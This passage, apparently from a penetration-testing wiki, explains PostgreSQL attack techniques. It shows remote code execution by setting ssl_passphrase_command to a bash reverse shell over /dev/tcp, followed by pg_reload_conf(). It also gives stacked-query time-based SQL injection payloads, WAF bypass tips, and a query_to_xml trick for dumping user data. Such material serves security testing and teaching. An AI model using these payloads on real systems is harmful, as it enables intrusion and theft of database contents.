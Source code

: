 The configuration file have some interesting attributes that can lead to RCE:

* `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Path to the private key of the database
* `ssl_passphrase_command = ''` If the private file is protected by password (encrypted) postgresql will **execute the command indicated in this attribute**.
* `ssl_passphrase_command_supports_reload = off` **If** this attribute is **on** the **command** executed if the key is protected by password **will be executed** when `pg_reload_conf()` is **executed**.

Then, an attacker will need to:

1. **Dump private key** from the server
2. **Encrypt** downloaded private key:
   1. `rsa -aes256 -in downloaded-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
3. **Overwrite**
4. **Dump** the current postgresql **configuration**
5. **Overwrite** the **configuration** with the mentioned attributes configuration:
   1. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
   2. `ssl_passphrase_command_supports_reload = on`
6. Execute `pg_reload_conf()`

While testing this I noticed that this will only work if the **private key file has privileges 640**, it's **owned by root** and by the **group ssl-cert or postgres** (so the postgres user can read it), and is placed in _/var/lib/postgresql/12/main_.

**More** [**information about this technique here**](https://pulsesecurity.co.nz/articles/postgres-sqli)**.**

## WAF bypass

### PostgreSQL String functions

Manipulating strings could help you to **bypass WAFs or other restrictions**.\
[**In this page** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**you can find some useful Strings functions.**

### Stacked Queries

Remember that postgresql support stacked queries, but several application will throw an error if 2 responses are returned when expecting just 1. But, you can still abuse the stacked queries via Time injection:

```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```

### XML tricks

**query\_to\_xml**

This function will return all the data in XML format in just one file. It's ideal if you want to dump a lot of data in just 1 row:

```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```

